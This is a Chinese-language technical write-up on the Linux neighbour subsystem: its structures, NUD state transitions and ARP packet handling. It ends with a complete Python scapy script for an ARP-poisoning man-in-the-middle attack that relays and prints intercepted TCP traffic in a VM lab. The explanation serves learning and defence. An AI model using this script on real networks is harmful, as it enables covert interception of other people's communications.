 # 邻居子系统与ARP协议

邻居子系统的作用就是将IP地址，转换为MAC地址，类似操作系统中的MMU（内存管理单元），将虚拟地址，转换为物理地址。

其中邻居子系统相当于地址解析协议（IPv4的ARP协议，IPv6的ND(Neighbor discover)协议）的一个通用抽象，可以在其上实现ARP等各种地址解析协议

# 邻居子系统的数据结构

```c
struct neighbour{
....................
}
```

neighbour结构存储的是IP地址与MAC地址的对应关系，当前状态

```c
struct neighbour_table{
....................
}
```

每一个地址解析协议对应一个neighbour_table,我们可以查看ARP的初始函数arp_init，其会创建arp_tbl

neighbour_table 包含 neighbour

# 邻居子系统的状态转换 

其状态信息是存放在neighbour结构的nud_state字段的

可以分析neigh_update与neigh_timer_handler函数，来理解他们之间的转换关系。


NUD_NONE:

    表示刚刚调用neigh_alloc创建neighbour

NUD_IMCOMPLETE

    发送一个请求，但是还未收到响应。如果经过一段时间后，还是没有收到响应，则查看发送请求数是否超过上限，如果超过则转到NUD_FAILED,否则继续发送请求。如果接受到响应则转到NUD_REACHABLE

NUD_REACHABLE:

    表示目标可达。如果经过一段时间，未有到达目标的数据包，则转为NUD_STALE状态

NUD_STALE

    在此状态，如果有用户准备发送数据，则切换到NUD_DELAY状态
    
NUD_DELAY

    该状态会启动一个定时器，然后接受可到达确认，如果定时器过期之前，收到可到达确认，则将状态切换到NUD_REACHABLE,否则转换到NUD_PROBE状态。

NUD_PROBE

    类似NUD_IMCOMPLETE状态

NUD_FAILED

    不可达状态，准备删除该neighbour

各种状态之间的切换，也可以通过scapy构造数据包发送并通过Linux 下的 ip neigh show 命令查看

# ARP接收处理函数分析

ARP的接收处理函数为arp_process(位于net/ipv4/arp.c)中

我们分情况讨论arp_process的处理函数并结合scapy发包来分析处理过程

##### 当为ARP请求数据包，且能找到到目的地址的路由

如果不是发送到本机的ARP请求数据包，则看是否需要进行代理ARP处理

如果是发送到本机的ARP请求数据包，则分neighbour的状态进行讨论，但是通过分析发现，不论当前neighbour是处于何种状态（NUD_FAILD、NUD_NONE除外），则都会将状态切换成 NUD_STALE状态，且mac地址不相同时，则会切换到本次发送方的mac地址

##### 当为ARP请求数据包，不能找到到目的地址的路由

不做任何处理

##### 当为ARP响应数据包

如果没有对应的neighbour，则不做任何处理。如果该neighbour存在，则将状态切换为NUD_REACHABLE，MAC地址更换为本次发送方的地址

# 中间人攻击原理

通过以上分析，可以向受害主机A发送ARP请求数据包，其中请求包中将源IP地址，设置成为受害主机B的IP地址，这样，就会将主机A中的B的 MAC缓存，切换为我们的MAC地址。

同理，向B中发送ARP请求包，其中源IP地址为A的地址

然后，我们进行ARP数据包与IP数据包的中转，从而达到中间人攻击。

# 使用Python scapy包，实现中间人攻击：

##### 环境

python3

ubuntu 14.04

VMware 虚拟专用网络

##### 代码

```python
#!/usr/bin/python3

from scapy.all import *
import threading
import time

client_ip = "192.168.222.186"
client_mac = "00:0c:29:98:cd:05"

server_ip = "192.168.222.185"
server_mac = "00:0c:29:26:32:aa"

my_ip = "192.168.222.187"
my_mac = "00:0c:29:e5:f1:21"

def packet_handle(packet):
    if packet.haslayer("ARP"):
        if packet.pdst == client_ip or packet.pdst == server_ip:
            if packet.op == 1: # request
                if packet.pdst == client_ip:
                    pkt = Ether(dst=client_mac,src=my_mac)/ARP(op=1,pdst=packet.pdst,psrc=packet.psrc)
                    sendp(pkt)
                if packet.pdst == server_ip:
                    pkt = Ether(dst=server_mac,src=my_mac)/ARP(op=1,pdst=packet.pdst,psrc=packet.psrc)
                    sendp(pkt)

                pkt = Ether(dst=packet.src)/ARP(op=2,pdst=packet.psrc,psrc=packet.pdst) #reply
                sendp(pkt)
            if packet.op == 2: #reply
                if packet.pdst == client_ip:
                    pkt = Ether(dst=client_mac,src=my_mac)/ARP(op=2,pdst=packet.pdst,psrc=packet.psrc)
                    sendp(pkt)
                if packet.pdst == server_ip:
                    pkt = Ether(dst=server_mac,src=my_mac)/ARP(op=2,pdst=packet.pdst,psrc=packet.psrc)
                    sendp(pkt)
                

    if packet.haslayer("IP"):
        if packet[IP].dst == client_ip or packet[IP].dst == server_ip:
            if packet[IP].dst == client_ip:
                packet[Ether].dst=client_mac
            if packet[IP].dst == server_ip:
                packet[Ether].dst=server_mac
            packet[Ether].src = my_mac
            sendp(packet)
        if packet.haslayer("TCP"):
            print(packet[TCP].payload)
            
class SniffThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
    def run(self):
        sniff(prn = packet_handle,count=0)

class PoisoningThread(threading.Thread):
    __src_ip = ""
    __dst_ip = ""
    __mac = ""
    def __init__(self,dst_ip,src_ip,mac):
        threading.Thread.__init__(self)
        self.__src_ip = src_ip
        self.__dst_ip = dst_ip
        self.__mac = mac

    def run(self):
        pkt = Ether(dst=self.__mac)/ARP(pdst=self.__dst_ip,psrc=self.__src_ip)
        srp1(pkt)
        print("poisoning thread exit")

if __name__ == "__main__":
    my_sniff = SniffThread()
    client = PoisoningThread(client_ip,server_ip,client_mac)
    server = PoisoningThread(server_ip,client_ip,server_mac)

    client.start()
    server.start()
    my_sniff.start()

    client.join()
    server.join()
    my_sniff.join()

```

client_ip 为发送数据的IP

server_ip 为接收数据的IP

    
# 参考质料

Linux邻居协议 学习笔记 之五 通用邻居项的状态机机制

https://blog.csdn.net/lickylin/article/details/22228047